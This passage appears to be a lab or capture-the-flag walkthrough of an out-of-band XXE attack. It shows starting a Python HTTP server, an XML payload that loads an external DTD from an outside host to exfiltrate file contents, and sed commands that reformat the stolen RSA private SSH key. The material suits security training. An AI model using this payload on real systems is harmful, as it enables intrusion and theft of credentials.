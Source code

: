 Command:
```
python3 -m http.server 8080
```



Send the same XXE payload we sent in the last step:
```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [
  <!ENTITY % dtd SYSTEM "http://192.220.76.2:8080/evil.dtd">
  %dtd;
  %all;
]>
<data>&fileContents;</data>
```


The response contains the private SSH keys.


Save the contents of the private keys to the id_rsa file:

Command:
```
cat id_rsa
```


The private SSH key is missing the new lines.

To restore the file, we can use the following command:

Command:
```
sed -e "s/-----BEGIN RSA PRIVATE KEY-----/&\n/" \
-e "s/-----END RSA PRIVATE KEY-----/\n&/" \
-e "s/\S\{64\}/&\n/g" \
id_rsa
```




The output contains the properly-formatted private SSH key.

The above command does the following: - Adds a new line after the
```
-----BEGIN RSA PRIVATE KEY-----
string - Adds a new line before the
-----END RSA PRIVATE KEY-----
string - For all other string blocks, it adds a new line after every 64 characters
```

Use the following command to save the formatted private key to the file fixed_id_rsa:

Command:
```
sed -e "s/-----BEGIN RSA PRIVATE KEY-----/&\n/" \
-e "s/-----END RSA PRIVATE KEY-----/\n&/" \
-e "s/\S\{64\}/&\n/g" \
id_rsa > fixed_id_rsa
```
